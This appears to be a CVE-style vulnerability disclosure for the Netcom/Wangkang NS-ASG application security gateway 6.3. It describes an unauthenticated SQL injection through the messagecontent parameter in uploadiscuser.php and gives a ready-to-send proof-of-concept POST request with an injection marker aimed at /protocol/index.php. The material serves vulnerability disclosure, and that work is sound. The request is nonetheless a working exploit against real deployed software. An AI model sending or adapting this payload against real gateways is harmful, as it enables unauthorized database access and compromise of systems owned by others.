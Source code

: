 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ：/protocol/iscuser/uploadiscuser.php

The analysis is as follows:
Accept the $UserId variable through the messagecontent variable, then traverse the $UserId variable and directly input it into the SQL statement without any validation. Causing unauthorized SQL injection
<img width="531" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/b18b608c-c4a1-48f8-9ca4-c601f79b630c">


Poc：
```
POST /protocol/index.php HTTP/1.1
Host: 127.0.0.1
Cookie: PHPSESSID=bfd2e9f9df564de5860117a93ecd82de
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 69

jsoncontent={"protocolType":"uploadiscuser","messagecontent":["1*"]} 
```
<img width="537" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/9abe45d6-a506-496b-ac99-56b8f0783269">



